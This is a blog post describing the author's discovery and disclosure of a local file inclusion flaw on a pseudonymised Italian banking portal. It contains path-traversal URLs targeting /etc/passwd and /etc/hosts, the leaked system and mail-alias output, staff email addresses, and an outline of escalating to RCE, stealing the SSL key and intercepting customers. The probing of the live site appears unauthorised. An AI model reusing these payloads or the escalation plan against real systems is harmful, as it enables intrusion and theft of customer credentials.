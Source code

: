 ```yaml
---
published: true
title: How i found an LFI vulnerability on a major banking site
layout: post
---
```

![](https://cdn-images-1.medium.com/max/1600/1*uRPk2m9Rs_8lSuEleEpgLw.gif)

Well yes, the title is a bit clickbait but that's what exactly happened some weeks ago when i was bored on an italian banking website, let's call it MPBbanking.<br><br>
As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so i tried out the good'old LFI to be sure that everything was safe and configured correctly...  <br>
Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
<br>
 Created by anaconda<br>
<br>
Users And Groups Exposed<br>
<br>
root:x:0:0:root:/root:/bin/bash<br>
bin:x:1:1:bin:/bin:/sbin/nologin<br>
daemon:x:2:2:daemon:/sbin:/sbin/nologin<br>
adm:x:3:4:adm:/var/adm:/sbin/nologin<br>
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin<br>
sync:x:5:0:sync:/sbin:/bin/sync<br>
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown<br>
halt:x:7:0:halt:/sbin:/sbin/halt<br>
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin<br>
operator:x:11:0:operator:/root:/sbin/nologin<br>
..<br>
..<br>
.<br>
<br>
At the beginning my reaction was like.. Well that must be a honeypot because they should have a real-badass Sysadmin(s) running HIDS/DPI/Sensors/Alerts & Monitoring every breath of any system in the radius<br>
of an entire DC.<br><br>
But then i said well what if they aren't so badass and missed that, so i type:  youweb.bankmpb.it/../../../../etc/hosts and then .. :
<br><br><br>
##########################<br>
#####ATTENZIONE !!<br>
##<br>
##FILE GESTITO DA PUPPET<br>
##NON MODIFICARE A MANO<br>
###########################<br>
#<br>
###########<br>
 VERONA<br>
###########<br>
options timeout:1 attempts:1<br>
search servizi *.group *.group *.zserver *.nexus<br>
nameserver *.*.5.25<br>
nameserver *.*.5.26<br>
nameserver *.*.140.25<br>
#nameserver *.*.140.26<br>
<br>
<br>
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4<br>
<br>
*.*.203.12	*.*.group	*<br>
<br>
<br><br><br>
Wow... we are dealing with a DevOpser (Master of Puppets)...and that is an LFI (*hacker-voice* "we are in", and i didn't even need my great tool inspect element to hack their JS/CSS).<br>
So i kept checking if i can find the contact of their Sysadmin to report him this vulnerability that could cost them $$ if exploited well.... *checking postfix conf for contact* :<br><br>
#trap decode to catch security attacks<br>
decode:		root<br>
<br>
#Person who should get root's mail<br>
#root:		marc<br>
#root:	 fabian.adam@mpbcorp-address.it,frank.life@mpbcorp-address.it <br>
<br><br><br>
Well if they should get root's mail then i'll contact them about this.<br>
The day after i got this "Macro" reply from "frank" :<br>
Good afternoon Sami,<br>
Thank you for the advisory.<br>
<br>
We have forwarded our email to the right departement that will analyse the context and take remedial action<br>
<br>
<br>
Best Regards,<br>
Frank<br>
<br>
Sent from my IBM Verse  <br>
<br>
<br>
Yep probably the "right departement" is his colleague next to him and he used this "Macro".<br>
<br>
<br>
Just some hours after this email they started to fix this LFI and no feedback.<br>
<br>
The next day i sent them another email (cc'ing some other colleagues email addresses) asking if they have any running "Whitehat/Bug bounty program" because if this is how they keep things secure even a script kiddie could find some interesting stuff in their systems.<br>
<br>
12 Days later  --> Still no reply --> What a great way to give feedback to fellow Sysadmin that helped out and reported to you a vulnerability in your systems.<br>
<br>
<br>
Yep, i know that MPBCORP is big and probably no one cares because i'm the only one (or someone else found out and was trying to hack you silently) that noticed this but what if they breached some serious data from your system and custumer data was at risk? <br>
<br>
<br>
What could have happened (From less to more skilled):<br>
-  Script kiddie tries to hack using any tool found on the net (% of compromise very low but ain't 100% sure on your security after i saw selinux on permissive)<br>
- "Simple" Hacker found out LFI on the site --> Sells directly this on 0day/exploit forums/deepweb makes some cash $$ even if doesn't show how to exploit the system<br>
- "Expert" Hacker silently gather all the system data for months and then plan for major data-breach & compromise of their infrastructure...Sysadmin: Come on.. LFI ain't so dangerous --> Just Google LFI to RCE  678.000 results in 0,80 seconds and after<br>
you gathered all the system information i think it's just a matter of time (wait for exploits to come out, discover your self or buy a 0day) to compromise the host. <br>
- "Pro" Hacker plans for his malicious plan of getting on his hands their SSL private key .pem file after he got RCE (Since he is "Pro" that what he does daily..that step will take him no time) <br>
   a) "Refactor" file permissions on .pem files<br>
   b) Download the .pem <br>
   c) MITM bank customers and get all their credentials on (W)LANS (Why not WAN.. if you have Ratted victim PC or compromised a router)<br>
   d) Massive blackhat profits<br>
<br>
<br>
Well that's it, fix at least your critical stuff and reply to contacts/abuse fellow Sysadmins.<br>
<br>
:Wq!:wq:WqESCESCESC:wq:wq:wq! CTRL+Z^C^C^C^C^C^C^C^C^C^^C^C<br>
[1]+  Stopped 		vi<br>
<br>
Sami<br>
 








